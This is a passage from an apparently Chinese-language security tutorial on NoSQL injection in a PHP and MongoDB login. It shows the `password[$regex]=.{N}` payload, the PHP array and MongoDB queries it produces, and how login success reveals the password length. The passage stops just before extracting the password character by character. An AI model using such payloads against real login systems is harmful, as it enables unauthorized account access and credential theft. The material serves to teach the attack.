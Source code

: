 ![image-20230513185222487](picture/image-20230513185222487.png)

在 `password[$regex]=.{6}` 时可以成功登录，但在 `password[$regex]=.{7}` 时登录失败，说明该 whoami 用户的密码长度为 6。

提交的数据进入 PHP 后的数据如下：

```sql
array(
    'username' => 'admin',
    'password' => array('$regex' => '.{6}')
)
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':'admin', 'password':{$regex:'.{6}'}})
{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
> db.users.find({'username':'admin', 'password':{$regex:'.{7}'}})
>
```

由于 whoami 用户的 password 长度为 6，所以查询条件 `{'username':'admin', 'password':{$regex:'.{6}'}}` 为真，便能成功登录，而 `{'username':'admin', 'password':{$regex:'.{7}'}}` 为假，自然也就登录不了。

知道 password 的长度之后我们便可以逐位提取 password 的字符了：
